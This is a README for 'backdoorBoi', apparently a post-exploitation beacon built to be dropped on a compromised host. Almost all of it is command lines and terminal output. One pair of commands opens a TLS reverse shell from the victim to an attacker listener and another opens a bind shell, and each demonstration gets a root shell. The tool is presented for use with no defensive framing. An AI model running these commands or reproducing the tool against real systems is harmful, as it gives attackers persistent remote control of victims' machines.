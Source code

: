 # backdoorBoi
All in one beacon to drop on a compromised host

## Build:

* Please look at github actions or just use the dockerfile to build for your platform.

## Reverse Shell:

* Victim:

```
root@f44b79805a1e:~/cmd# ./backdoorBoiLinux Netcat --address 172.17.0.2 --reverse --port 8000 --tls
2024/06/13 22:45:18 [*] Rev shell spawning, connecting to 172.17.0.2:8000
2024/06/13 22:45:18 Linux

```

* Attacker:

```
root@fcbc11f4beba:~/cmd# ./backdoorBoiLinux Netcat --listen --port 8000 --tls 
2024/06/13 22:45:06 Listener opened on :8000
2024/06/13 22:45:09 Received connection from 172.17.0.3:57398!
whoami
root

```

## Bind Shell:

* Victim:

```
root@fcbc11f4beba:~/cmd# ./backdoorBoiLinux Netcat --bind --port 8000 --tls
2024/06/13 22:45:57 [*] Binding shell spawning for remote code execution
2024/06/13 22:46:02 Received connection from 172.17.0.3:49050!

```

* Attacker:

```
root@f44b79805a1e:~/cmd# ./backdoorBoiLinux Netcat --address 172.17.0.2 --caller --port 8000 --tls
2024/06/13 22:46:02 [*] Bind shell spawning, connecting to 172.17.0.2:8000
whoami
root

```